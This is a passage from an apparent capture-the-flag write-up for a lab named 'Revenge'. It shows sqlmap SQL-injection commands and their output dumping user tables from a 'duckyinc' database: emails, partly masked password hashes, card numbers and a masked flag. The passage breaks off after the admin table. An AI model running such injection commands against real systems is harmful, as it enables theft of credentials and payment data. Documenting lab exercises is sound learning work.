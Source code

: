 <br>

```bash
:~/Revenge# sqlmap -u http://xx.xxx.xx.xxx/products/1 --batch --risk 3 --level 5 -D duckyinc -T user --dump
...
Database: duckyinc                                                                                                                                                                                     
Table: user
[10 entries]
+------+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id   | email                           | company          | username | _password                                                    | credit_card                |
+------+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1    | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$********IUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2    | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$********9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3    | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$********ufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4    | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$********PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5    | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$*********sec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6    | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$********4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{*************3nt3r1ng} |
| 7    | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$********oN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8    | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$*********xD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9    | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$*********ch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10   | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$***********TLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+------+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```

<br>

<img width="1353" height="275" alt="image" src="https://github.com/user-attachments/assets/4c1aebd9-4c13-4b72-af3c-868992c67088" />

<br>

<p>2.1. flag1<br>
<code>thm{*************3nt3r1ng}</code></p>

<br>

```bash
:~/Revenge# sqlmap -u http://xx.xxx.xx.xxx/products/1 --batch --risk 3 --level 5 -D duckyinc --dump
...
Database: duckyinc                                                                                                                                                                                     
Table: system_user
[3 entries]
+------+----------------------+--------------+--------------------------------------------------------------+
| id   | email                | username     | _password                                                    |
+------+----------------------+--------------+--------------------------------------------------------------+
| 1    | sadmin@duckyinc.org  | server-admin | $2a$08$********2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
```